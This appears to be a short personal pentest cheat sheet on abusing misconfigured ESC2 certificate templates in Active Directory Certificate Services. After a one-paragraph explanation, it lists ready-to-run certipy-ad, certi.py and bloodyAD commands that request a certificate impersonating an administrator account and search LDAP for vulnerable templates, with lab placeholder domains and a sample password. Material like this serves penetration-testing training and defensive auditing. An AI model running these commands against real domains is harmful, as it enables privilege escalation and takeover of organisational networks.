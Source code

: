 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 

In order to abuse ESC2 certificate templates, the requirements are similar to those in ESC1, but with one key difference: if the template specifies the EKU as "Any Purpose" or doesn't specify an EKU at all, the certificate becomes versatile and can be used for any purpose. 

# Abusing ESC2 Certificates

## Certipy:
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -alt 'xadmin@megacorpone.com'
## Certi
- `python certi.py 'megacorpone.com/afsimmons@dc01.megacorpone.com' megacorpone-DC01-CA -k -n --alt-name 'xadmin@megacorpone.com' --template vulnerable-ec2-template`
## BloodyAD

- Source: https://github.com/CravateRouge/bloodyAD
- python bloodyAD.py -u alfred.simmons -p 'SuperSpawn123!' --host 172.21.100.1 -d bloody.lab get search --base 'CN=Configuration,DC=megacorpone,DC=com' --filter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))'